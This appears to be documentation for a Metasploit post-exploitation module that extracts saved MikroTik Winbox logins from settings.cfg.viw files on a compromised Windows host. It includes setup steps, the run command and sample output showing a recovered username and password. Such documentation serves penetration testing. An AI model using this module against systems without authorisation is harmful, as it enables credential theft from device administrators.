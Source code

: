## Vulnerable Application

Any Windows host with a `meterpreter` session and Mikrotik Winbox installed.

Winbox can be downloaded [here](https://mikrotik.com/download)

### Installation Steps

1. Download and open Mikrotik Winbox
2. Enter a RouterOS device address into `Connect to`, username into `Login`, password into `Password` and check the flag `Keep Password`
3. Click Connect

## Verification Steps

1. Get a `meterpreter` session on a Windows host.
2. Do: `run post/windows/gather/credentials/winbox_settings`
3. If any users in the system has a `Keep Password` enabled in Winbox, the credentials will be printed out.

## Options

### VERBOSE

- By default verbose is turned off. When turned on, the module will show the HexDump of `settings.cfg.viw` files.

## Scenarios

```
msf6 post(windows/gather/credentials/winbox_settings) > run

[*] VERBOSE: false
[*] Checking Default Locations...
[*] C:\Users\Administrator\AppData\Roaming\Mikrotik\Winbox\settings.cfg.viw not found ....
[*] Found File at C:\Users\FooBar\AppData\Roaming\Mikrotik\Winbox\settings.cfg.viw
[+] Login: ThisIsUsername
[+] Password: ThisIsPassword
[*] Post module execution completed
```
